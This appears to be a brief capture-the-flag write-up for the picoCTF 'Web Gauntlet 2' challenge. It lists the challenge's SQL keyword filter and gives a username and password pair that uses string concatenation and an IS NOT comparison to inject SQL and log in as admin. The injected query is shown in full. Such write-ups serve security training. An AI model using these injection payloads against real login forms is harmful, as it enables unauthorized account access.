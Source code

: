 # Web Gauntlet 2
AUTHOR : MADSTACKS <br>
DESCRIPTION : This website looks familiar... Log in as admin Site: <br>
http://mercury.picoctf.net:65261/ <br>
Filter: http://mercury.picoctf.net:65261/filter.php <br>

# Solution
Only 1 Round <br>
Filter : `or and true false union like = > < ; -- /* */ admin` <br>
Username = `ad'||'min` <br>
Password = `a' IS NOT 'b` <br>
Query : `SELECT username, password FROM users WHERE username='ad'||'min'' AND password='a' IS NOT 'b'` <br>

Flag can be found in `filter.php` after solving the first round
